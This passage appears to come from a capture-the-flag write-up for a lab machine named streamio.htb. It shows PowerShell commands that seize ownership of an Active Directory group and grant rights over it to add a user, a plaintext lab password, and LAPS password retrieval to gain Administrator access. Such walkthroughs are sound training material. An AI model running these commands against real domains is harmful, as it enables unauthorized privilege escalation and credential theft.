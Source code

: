 #### Attack execution

##### Add nikk37 to owners
*I decided to use nikk37 because we have remoting over him, while if we used JDgodd, we would have to jump through hoops, changing owners is loud anyway, whichever user we choose*

*Create credential object for JDgodd*
```powershell
$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $SecPassword)
```

*Add nikk37 to 'CORE STAFF'*
```powershell
#set the owner of CORE STAFF to be JDgodd
Set-DomainObjectOwner -Identity 'CORE STAFF' -OwnerIdentity 'JDgodd' -Credential $Cred

#Give all rights on CORE STAFF to JDgodd (to allow us to write members)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "CORE STAFF" -Rights All -PrincipalIdentity JDgodd

#Add nikk37 to the group core staff
Add-DomainGroupMember -Identity 'CORE STAFF' -Members 'nikk37' -Credential $Cred
```

![df467cd45de263f69c29f1088e2f2669.png]({{ site.baseurl }}/images/df467cd45de263f69c29f1088e2f2669.png)

Once we have done this, *nikk37* can now read the local administrator account's password from LAPS. We can do that with netexec.

![393ba2e805d78518d662b4e1dbe362da.png]({{ site.baseurl }}/images/393ba2e805d78518d662b4e1dbe362da.png)

We receive the Administrator password, and are able to login via winrm. 

![4f6013cca0cd1fb2bab74fded732904f.png]({{ site.baseurl }}/images/4f6013cca0cd1fb2bab74fded732904f.png)

Pwned.

Happy hacking to you my friends!
